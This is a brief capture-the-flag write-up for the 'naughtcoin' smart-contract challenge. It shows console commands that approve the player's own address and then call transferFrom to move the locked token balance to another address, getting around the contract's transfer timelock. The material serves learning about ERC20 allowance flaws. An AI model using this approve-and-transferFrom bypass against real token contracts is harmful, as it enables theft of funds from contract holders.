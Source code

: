 # naughtcoin
 
using the approved solidity function we can actually approve ourselves so we can unlock the amount we can send. Then we simply use transfer from to send the tokens to another contract

(await contract.balanceOf(player)).toString()
await contract.approve(player, "999999999990000000000000")
contract.transferFrom(player, "0x99260eB35106FCe9FAE0bBa2e86193fD90bD56dF","999999999990000000000000")<img width="1536" alt="naught" src="https://user-images.githubusercontent.com/63403890/186503190-5c9ff1b7-a3f0-42f1-a39d-40812f4f9e44.png">
